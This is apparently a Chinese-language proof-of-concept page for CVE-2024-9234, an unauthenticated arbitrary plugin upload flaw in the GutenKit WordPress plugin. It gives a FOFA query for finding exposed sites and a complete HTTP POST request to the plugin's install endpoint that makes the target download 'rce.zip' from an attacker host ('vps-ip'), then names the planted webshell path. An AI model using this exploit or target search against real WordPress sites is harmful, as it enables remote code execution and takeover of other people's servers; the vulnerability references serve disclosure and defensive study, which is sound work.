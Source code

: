 # WordPress插件GutenKit存在任意文件上传漏洞(CVE-2024-9234)

GutenKit - 用于 WordPress 的古腾堡块编辑器插件的页面构建器块、模式和模板容易受到任意文件上传的攻击，因为在所有版本中缺少对 install_and_activate_plugin_from_external() 函数（install-active-plugin REST API 端点）的功能检查至（并包括）2.1.0。这使得未经身份验证的攻击者可以安装和激活任意插件，或利用该功能上传像插件一样欺骗的任意文件。

## fofa

```java
body="wp-content/plugins/gutenkit-blocks-addon"
```

## poc

```javascript
POST /wp-json/gutenkit/v1/install-active-plugin HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

plugin=http://vps-ip/rce.zip
```

![image-20241018155657418](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181556493.png)

文件路径`/wp-content/plugins/rce.php`



## 漏洞来源

- https://nvd.nist.gov/vuln/detail/CVE-2024-9234
- [Wordpress GutenKit 插件 远程文件写入致RCE漏洞复现(CVE-2024-9234)_漏洞复现-CSDN专栏](https://download.csdn.net/blog/column/10118303/142984860)